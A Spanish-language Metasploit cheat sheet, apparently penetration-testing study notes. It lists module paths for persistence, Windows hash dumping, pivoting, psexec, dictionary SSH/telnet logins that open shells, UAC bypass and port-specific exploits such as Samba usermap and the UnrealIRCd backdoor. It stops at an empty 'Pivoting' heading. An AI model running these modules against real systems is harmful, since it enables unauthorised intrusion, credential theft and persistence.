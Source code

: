 

## Para ejecutar Persistencia

use post/windows/manage/persistence\_exe

Set REXENAME nombre que quedará

Set REXEPATH ruta donde está el payload

Set SESSION cual sesion se tiene la víctima

Set STARTUP (user/system/service)

## Para extraer el hash de un windows (puede mostrar pass directamente)

Run post/windows/gather/hashdump

## Para tener acceso a las redes de la víctima

run post/multi/manage/autoroute

## Para explotar smb en windows

Use exploit/windows/smb/psexec\_psh

## Auxiliares o exploits genéricos útiles

auxiliary/scanner/ssh/ssh\_login -\&gt; usa diccionario para loguearse. Una vez exitoso, automáticamente abre una sesión shell

auxiliary/scanner/telnet/telnet\_login -\&gt; usa diccionario para loguearse. Una vez exitoso, automáticamente abre una sesión shell. También sirve para tener una shell conociendo las credenciales.

auxiliary/scanner/snmp/snmp\_enum/

post/multi/recon/local\_exploit\_suggester para que nos indique que es o mejor para escalamiento de privilegios

exploit/multi/http/php\_cgi\_arg\_injection -\&gt; para explotar cgi en php (puerto 80)

exploit/multi/samba/usermap -\&gt;para el puerto 139. Obtiene un meterpreter

exploit/multi/misc/java\_rmi\_server -\&gt; para puerto 1099, RMI de java. Levanta un meterpreter.

exploit/linux/postgres/postgres\_payload -\&gt; para explotar postgres. Puesto 5432

exploit/unix/irc/unreal\_ircd\_3281\_backdoor -\&gt; para explotar IRC unreal puerto 6667

windows/local/bypassuac\_fodhelper -\&gt; para elevar privilegios luego de tomar meterpreter.

windows/iis/iis\_webdav\_scstoragepathfromurl --\&gt; para tomar sesión de un iis 6.0 con webdav habilitado

## Para hacer Pivoting
